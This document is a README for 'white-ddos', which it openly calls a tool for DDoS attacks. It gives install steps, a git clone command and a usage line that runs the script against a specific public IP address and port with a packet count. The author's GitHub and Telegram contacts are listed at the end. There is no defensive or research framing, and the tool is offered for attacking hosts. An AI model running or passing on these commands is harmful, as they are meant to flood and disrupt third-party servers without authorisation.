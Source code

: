# white-ddos
This is a tool used for ddos attack.

commands
_______________
	$ apt update -y && apt upgrade -y
	$ pkg install git
	$ pkg install figlet
	$ pkg install python2
	$ git clone https://github.com/WH1T3-E4GL3/white-ddos.git
	$ cd white-ddos
	$ git pull
	$ python2 white-ddos.py <IP> <PORT> <PACKETS>
 
example : python2 white-ddos.py 104.27.190.77 8080 100  
	
	  Target IP : 104.27.190.77 
	  Port      : 8080
	  Packet    : 100  

Tool used for ddos attack.
Tool devoloped by white eagle.

Github   : https://github.com/WH1T3-E4GL3
Telegram : https://t.me/Ka_KsHi_HaTaKe
